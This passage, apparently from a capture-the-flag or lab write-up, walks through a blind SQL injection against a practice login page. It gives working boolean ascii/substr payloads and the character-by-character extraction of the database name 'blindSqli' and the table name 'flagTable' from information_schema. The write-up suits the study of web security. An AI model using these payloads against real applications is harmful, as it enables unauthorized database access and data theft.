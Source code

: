 #### Use ascii() for efficient comparison
If we convert characters to numbers using ASCII codes, we can perform range comparisons like > or <, which allows for more efficient value guessing.
```
ascii('a') → 97  
ascii('b') → 98  
ascii('A') → 65  
ascii('1') → 49
```
Now, the attack format becomes
```
normaltic' and (ascii(substr((select ______________), 1, 1)) > n) and '1'='1
'n' is an integer
```
### Step 4. Discovering the Database Name 

The following injection payload was used:
```
normaltic' and (ascii(substr((select database()), 1,1)) > 0) and '1'='1
```

![image](https://github.com/user-attachments/assets/542fc5bc-cdec-4dac-ace1-1f81b8e5f011)
Using Burp Suite’s Repeater feature, we repeatedly sent requests to the server and analyzed its responses.

substr((select database()), 1, 1) = 'b' → ASCII 98
substr((select database()), 2, 1) = 'l' → ASCII 108
substr((select database()), 3, 1) = 'i' → ASCII 105
substr((select database()), 4, 1) = 'n' → ASCII 110
substr((select database()), 5, 1) = 'd' → ASCII 100
substr((select database()), 6, 1) = 'S' → ASCII 83
substr((select database()), 7, 1) = 'q' → ASCII 113
substr((select database()), 8, 1) = 'l' → ASCII 108
substr((select database()), 9, 1) = 'i' → ASCII 105
The database name was confirmed to be blindSqli.

At position 10, the query:
substr((select database()), 10, 1) > 0
returned false, confirming there were no more characters.
![image](https://github.com/user-attachments/assets/2132cefa-e571-4e38-8669-3f04c76147f0)

### Step 5. Discovering the Table Name
Injection used:
```
normaltic' and (ascii(substr((select table_name from information_schema.tables where table_schema='blindSqli' limit 0,1), 1, 1)) > 0) and '1'='1
```
We used LIMIT 0,1 to extract table names one row at a time, since a database may contain multiple tables.

Extracted characters:
'f', 'l', 'a', 'g', 'T', 'a', 'b', 'l', 'e' → Combined as flagTable
The table name was confirmed to be flagTable.
